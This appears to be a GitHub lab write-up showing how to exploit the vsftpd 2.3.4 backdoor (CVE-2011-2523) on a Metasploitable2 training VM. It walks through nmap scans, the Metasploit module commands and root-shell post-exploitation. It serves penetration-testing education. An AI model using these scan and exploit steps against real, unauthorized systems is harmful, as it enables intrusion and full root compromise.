# 🛡️ Network Security Lab: Exploiting vsftpd 2.3.4 Using Metasploit

## 📚 Theory

### 🔐 What is Penetration Testing?
Penetration testing (or ethical hacking) is a simulated cyberattack against a system to find vulnerabilities that a malicious hacker could exploit. It is an essential practice in cybersecurity to evaluate the security of IT infrastructure.

### 🌐 What is Network Scanning?
Network scanning is the process of identifying active devices on a network. Tools like **Nmap** are used to scan IP ranges, detect open ports, services, and operating systems.

### ⚙️ What is Metasploit?
Metasploit is a powerful open-source penetration testing framework used for developing and executing exploit code against a remote target machine. It helps security professionals validate vulnerabilities.

### 📦 What is vsftpd?
vsftpd (Very Secure FTP Daemon) is an FTP server used on Unix-like systems. Version `2.3.4` contains a **backdoor vulnerability** (CVE-2011-2523) that allows an attacker to gain a root shell by sending a crafted payload.

---

## 🧪 Lab Objective

Exploit the **vsftpd 2.3.4** vulnerability on a **Metasploitable2** machine using **Kali Linux** and **Metasploit Framework**.

---

## 🖥️ Lab Setup

- **Host OS**: Any OS with VirtualBox installed
- **VM1**: Kali Linux (Attacker)
- **VM2**: Metasploitable2 (Target)
- **Network Mode**: **Bridge Adapter** for both VMs (or internal network with static IPs)

---

## 🔎 Step 1: Identify Target IP

Run this on Kali:

```bash
nmap -sn 192.168.10.0/24
````

Look for the IP assigned to Metasploitable.

---

## 🔍 Step 2: Perform Nmap Scan on Target

```bash
nmap -A 192.168.10.131
```

Sample output:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
22/tcp open  ssh     OpenSSH 4.7p1 Debian
...
```

Note the version: `vsftpd 2.3.4`

---

## ❓ Step 3: Is It Vulnerable?

Search using:

* [https://www.cvedetails.com](https://www.cvedetails.com)
* [https://www.exploit-db.com](https://www.exploit-db.com)

Found: **CVE-2011-2523** — vsftpd 2.3.4 has a backdoor vulnerability.

---

## 💣 Step 4: Exploit via Metasploit

### Open Metasploit

```bash
msfconsole
```

### Find Exploit

```bash
search vsftpd
```

Use the exploit:

```bash
use 0
```

### Set Target

```bash
set RHOST 192.168.10.131
set LHOST 192.168.10.129  # (Kali IP)
```

Check options:

```bash
show options
```

Run the exploit:

```bash
exploit
```

---

## 🐚 Step 5: Post-Exploitation

You should get a shell on the victim machine:

```bash
whoami
root

ifconfig
ls
cd /home
```

---

## 🧠 Key Concepts Recap

| Concept     | Description                                             |
| ----------- | ------------------------------------------------------- |
| **RHOST**   | Remote Host (Metasploitable IP)                         |
| **LHOST**   | Local Host (Kali IP)                                    |
| **Exploit** | A piece of code that takes advantage of a vulnerability |
| **Payload** | The code that runs after the exploit succeeds           |
| **Shell**   | A command line access to the victim system              |

---

## ⚠️ Legal Disclaimer

This lab is for **educational purposes only**. Do not use these tools or techniques on systems you do not own or have permission to test.

---

## ✅ Summary

We successfully:

* Set up a virtual lab
* Identified an FTP vulnerability using Nmap
* Confirmed vulnerability via online databases
* Exploited the target using Metasploit
* Gained root access to Metasploitable

